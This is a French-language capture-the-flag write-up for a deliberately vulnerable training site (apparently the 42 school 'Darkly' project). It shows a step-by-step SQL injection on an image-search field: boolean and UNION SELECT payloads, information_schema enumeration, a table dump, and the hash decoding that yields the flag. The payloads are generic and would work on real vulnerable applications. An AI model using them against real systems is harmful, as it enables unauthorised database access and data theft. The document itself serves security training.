 # SQL Injection Images

- On voit que dans cette entrée il y a une injection SQL
- On commence donc par récupérer toute les données
```
# Injection
1 OR 1=1
# Result
ID: 1 OR 1=1 
Title: Nsa
Url : https://www.nsa.org/img.jpg

ID: 1 OR 1=1 
Title: 42 !
Url : https://www.42.fr/42.png

ID: 1 OR 1=1 
Title: Google
Url : https://www.google.fr/google.png

ID: 1 OR 1=1 
Title: Obama
Url : https://www.obama.org/obama.jpg

ID: 1 OR 1=1 
Title: Hack me ?
Url : borntosec.ddns.net/images.png

ID: 1 OR 1=1 
Title: tr00l
Url : https://www.h4x0r3.0rg/tr0ll.png
```
- Une entrée s'apelle `Hack Me ?`. On comprend donc qu'il faut récupérer les autres colonnes de celle-ci
- On récupère le nom de notre Database
```
# Injection
1 UNION SELECT version(),database()
# Result
ID: 1 UNION SELECT version(),database() 
Title: Member_images
Url : 5.5.44-0ubuntu0.12.04.1
```

- On récupère ensuite la table
```
# Injection
1 UniOn Select 1,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=database()
# Result
ID: 1 UniOn Select 1,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=database() 
Title: |list_images|
Url : 1
```

- Puis les différentes colonnes
```
# Injection
1 UNION ALL SELECT column_name,table_name from information_schema.columns
# Result
ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns 
Title: list_images
Url : id

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns 
Title: list_images
Url : url

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns 
Title: list_images
Url : title

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns 
Title: list_images
Url : comment
```
- Maintentant on peut récupérer les différentes informations
```
# Injection
1 UNION SELECT concat(id,char(58),url,char(58),title,char(58),comment,char(58)),2 FROM list_images
# Result
ID: 1 UNION SELECT concat(id,char(58),url,char(58),title,char(58),comment,char(58)),2 FROM list_images 
Title: 2
Url : 5:borntosec.ddns.net/images.png:Hack me ?:If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46:
```
- On fait ce que nous dit le commentaire
```
1928e8083cf461a51303633093573c46 -> albatroz -> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```